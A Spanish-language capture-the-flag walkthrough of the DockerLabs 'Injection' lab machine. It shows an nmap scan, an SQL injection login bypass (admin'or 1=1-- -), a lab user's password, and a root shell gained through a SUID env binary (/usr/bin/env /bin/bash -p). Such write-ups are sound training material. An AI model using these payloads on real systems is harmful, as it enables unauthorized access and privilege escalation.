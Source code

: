 # injection

Maquina INJECTION de [DockerLabs](https://dockerlabs.es)

Dificultad: Muy Fácil

Creador: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

![DockerLabs](../../../maquina-injection/imagenes/Injection.png)

## INTRUSION

Comenzamos haciendo un escaneo con nmap:

```css
nmap -sVC 172.17.0.2
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 14:58 -03
Nmap scan report for 172.17.0.2
Host is up (0.00028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds
```

Vemos que solo esta abierto el puerto 22 y 80, sabiendo esto nos iremos directo al navegador y vemos un `panel de login`. Luego de probar las credenciales tipias como `admin:admin` o `root:root` pero ninguna funciona, por lo que continuaremos con probar una inyeccion sql, para esto, `escribiremos el usuario y junto a el 'or 1=1-- -` y de contraseña lo que sea, finalmente quedaria así:

```css
admin'or 1=1-- -
```

Habiendo hecho esto logramos iniciar sesion y nos dan el siguiente mensaje: ![Acceso](../../../maquina-injection/imagenes/dylan.png)

Ahora continuaremos probando el usuario "dylan" con la contraseña "KJSDFG789FGSDF78". Ya estamos dentro.

## ESCALADA DE PRIVILEGIOS

Lo primero que hacemos es ejecutar `sudo -l` pero como no existe ejecutamos `find / -perm -4000 2>/dev/null` y vemos que el binario `env` sale como `/usr/bin/env`, por lo que buscamos en [GTFOBins](https://gtfobins.github.io) y vemos que si ejecutamos lo siguiente escalamos de privilegios a root:

```css
/usr/bin/env /bin/bash -p
```

y listo, somos ROOT.

![root](../../../maquina-injection/imagenes/root.png)

Gracias por leer.
